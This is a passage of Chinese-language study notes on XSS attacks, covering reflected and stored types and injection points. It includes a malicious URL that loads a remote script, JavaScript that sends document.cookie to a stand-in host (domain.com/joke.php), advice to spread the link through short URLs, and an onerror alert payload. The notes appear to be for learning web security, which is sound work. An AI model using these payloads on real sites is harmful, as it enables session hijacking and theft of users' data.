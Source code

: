 - 用户身份被盗用
- 用户密码泄露
- 用户资料被盗取
- 网站数据库泄露

## XSS 跨站脚本攻击

> Cross Site Scripting

- 获取页面数据
- 获取 Cookies
- 劫持前段逻辑
- 发送请求

### XSS 攻击分类

- 反射型：URL 参数直接注入
- 存储行：存储到 DB 后读取时注入

### XSS 攻击注入点

- HTML 节点内容
- HTML 属性
- JavaScript 代码（后台用户的变量，用户输入的变量）
- 富文本

#### URL 参数直接注入

- 攻击用户url 地址：`http://domain/?from=<script src="https://domain.com/joke.js"></script>`

- 获取数据服务器- doamin.com/joke.js

``` js
var img = document.createElement('img')
img.width = 0;
img.hegiht = 0;
img.src='http://domain.com/joke/joke.php?joke=' + encodeURIComponent(document.cookie);
```

攻击用户 url 地址（使用短网址,dwz.cn）发给其他用户使用之后，获取数据服务器可以得到用户的cookies，并在浏览器设置获取cookies之后，获取用户数据。

#### HTML 节点内容

``` html
<div>{{content}}</div
<div><script></script></div>
```

#### HTML 属性

``` html
<img src="#{image}" />
<img src="1" onerror="alert(1)" />
```

#### JavaScript 代码（后台用户的变量，用户输入的变量）
